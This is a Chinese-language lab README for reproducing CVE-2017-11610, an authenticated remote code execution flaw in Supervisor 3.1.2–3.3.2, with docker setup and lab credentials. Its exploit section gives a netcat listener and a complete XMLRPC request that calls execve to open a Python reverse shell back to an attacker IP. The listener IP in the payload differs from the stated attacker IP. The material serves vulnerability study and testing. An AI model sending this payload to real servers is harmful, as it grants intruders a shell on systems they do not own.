

## Supervisor Authenticated Remote Code Execution(CVE-2017-11610)

### 漏洞信息

Supervisor 是用 Python 开发的一套通用的进程管理程序，能将一个普通的命令行进程变为后台 daemon，并监控进程状态，异常退出时能自动重启。Supervisor可通过web接口管理服务，在配置了web接口后，同时会在服务器启动一个 XMLRPC 服务器，端口为 9001。该接口可配置需要密码访问，或者无需认证访问。

在获取该接口的访问权限后，远程攻击者可发送一段精心构造的请求，可在服务器执行任意代码。

### 影响版本

已经确认：

* Supervisor 3.1.2 <= Version <= 3.3.2 

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
http://xxx/9001/RPC2 | vulapps | vulapps

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_supervisor_1
 ```

2. 启动环境

 ```
$ docker run -d -p 80:80 -p 9001:9001 medicean/vulapps:s_supervisor_1
 ```
 > `-p 80:80` 前面的 80 代表物理机的端口，可随意指定。 

 访问 http://127.0.0.1:80 看到 web 界面即启动成功

#### Exp

反弹 Shell

> 假定启动后的环境如下：
>
> 攻击者 IP: 192.168.2.104
> 
> 受害者 IP: 192.168.2.100

1. 在攻击者机器上使用 nc 监听

 ```
 $ nc -lvp 9999
 ```

2. 向受害者 9001 端口发送如下报文后即可

```
POST http://192.168.2.100:9001/RPC2 HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/xml
Content-Type: text/xml
Accept-Language: en-GB,en;q=0.5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 638
Host: 192.168.2.100:9001

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.execve</methodName>
<params>
<param>
<string>/usr/bin/python</string>
</param>
<param>
<array>
<data>
<value><string>python</string></value>
<value><string>-c</string></value>
<value><string>import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.140",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);</string></value>
</data>
</array>
</param>
<param>
<struct>
</struct>
</param>
</params>
</methodCall>
```

---



### 参考链接

* [SSD Advisory – Supervisor Authenticated Remote Code Execution](https://blogs.securiteam.com/index.php/archives/3348)
* [[CVE-2017-11610] RCE vulnerability report](https://github.com/Supervisor/supervisor/issues/964)
